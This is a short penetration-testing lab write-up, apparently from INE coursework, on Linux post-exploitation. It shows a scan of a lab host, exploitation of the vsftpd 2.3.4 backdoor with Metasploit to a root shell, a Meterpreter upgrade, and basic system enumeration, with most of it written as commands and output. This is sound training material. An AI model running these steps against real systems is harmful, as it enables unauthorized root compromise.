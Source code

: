 # 🔬 Linux Post-Exploitation

> 🔬 INE LAB
>
> - Target IP: `192.218.227.3`
> - **Local Linux Enumeration**

> 📝📌 **Always document and save all the Post-Exploitation Local Enumeration in a local file.**

## Enumeration & Exploitation

```bash
nmap -sV 192.218.227.3
	21/tcp open  ftp  vsftpd 2.3.4
```

```bash
searchsploit vsftpd 2.3.4
service postgresql start && msfconsole -q
```

```bash
search vsftpd
use exploit/unix/ftp/vsftpd_234_backdoor
setg RHOSTS 192.218.227.3
setg RHOST 192.218.227.3
run
    [+] 192.218.227.3:21 - UID: uid=0(root) gid=0(root) groups=0(root)
    [*] Found shell.

/bin/bash -i
	root@victim-1:~/vsftpd-2.3.4#
```

```bash
# CTRL+Z
sessions -u 1
sessions 2
	meterpreter >
```

## Local Enumeration

### System Information

- In the **`Meterpreter`** session

```bash
getuid
	Server username: uid=0, gid=0, euid=0, egid=0
```

```bash
sysinfo
    Computer     : 192.218.227.3
    OS           : Debian 9.5 (Linux 5.4.0-131-generic)
    Architecture : x64
    BuildTuple   : i486-linux-musl
    Meterpreter  : x86/linux
```
